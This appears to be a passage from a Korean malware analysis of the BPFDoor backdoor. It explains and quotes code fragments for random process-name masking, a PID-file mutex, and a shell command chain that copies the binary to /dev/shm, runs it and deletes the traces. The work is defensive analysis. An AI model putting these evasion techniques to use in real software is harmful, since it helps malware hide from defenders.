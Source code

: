 - 동작할 때마다 프로세스를 은닉하기 위해 **프로세스명을 랜덤하게 변경**한다. (10개의 문자열)

    ```c
    strcpy(cfg.mask, self[rand()%10]);
    ...
    set_proc_name(argc, argv, cfg.mask);
    ```

    - 이후에 랜덤한 값을 추출하여 `set_proc_name` 함수 내에서 **`prctl` 함수를 호출하여 프로세스명으로 설정**한다.
    - (set_proc_name) **argv[0] 값을 덮어씌워 실행 중인 프로세스의 인자 목록을 수정**한다.


### **2) 다중 실행 방지**

```c
pid_path[0] = 0x2f;
...
pid_path[21] = 0x00;
```

- `/var/run/haldrund.pid` 문자열을 저장한다.

```c
if (access(pid_path, R_OK) == 0) {
	exit(0);
}
```

- 해당 파일의 존재 여부를 확인하여 이미 실행 중인 BPFDoor 프로세스가 있는지 검사하여 다중 실행을 방지한다.
- 해당 파일은 Mutex 역할을 수행하는 파일로 동작한다.

### **3) 프로세스 복사 및 실행**

```bash
if (argc == 1) {
	if (to_open(argv[0], "kdmtmpflush") == 0)
	        _exit(0);
	_exit(-1);
}
```

- `to_open` 함수 동작
    - 프로세스 자신을 `/dev/shm/kdmtmpflush`로 복사하고 실행 권한(755)을 부여한 다음, `--init` 인자를 붙여 실행한다. 이때, 메모리 파일 시스템에 숨어서 실행되는 방식이다. 이후에 원본 파일 삭제한다.

    ```bash
    /bin/rm -f /dev/shm/%s;
    /bin/cp %s /dev/shm/%s &&
    /bin/chmod 755 /dev/shm/%s &&
    /dev/shm/%s --init &&
    /bin/rm -f /dev/shm/%s
    ```

    - 명령어 문자열 의미
        - /bin/rm -f /dev/shm/%s
            - 해당 파일 삭제
        - /bin/cp %s /dev/shm/%s
            - 현재 위치에 있는 `kdmtmpflush` 파일을 `/dev/shm/kdmtmpflush`에 복사
        - /bin/chmod 755 /dev/shm/%s
            - 파일에 755 권한 부여
        - /dev/shm/%s --init
            - `--init` 인자 값을 포함하여 파일 실행
        - /bin/rm -f /dev/shm/%s
            - 파일 삭제(흔적 제거)
        - 인자로 받은 `kdmtmpflush` 문자열을 %s 포맷스트링으로 설정
    - kdmtmpflush 파일명은 리눅스 커널에서 사용하는 *kdm과 *kdmflush에서 사용되는 임시(tmp) 프로세스인 것처럼 이름을 위장한다.
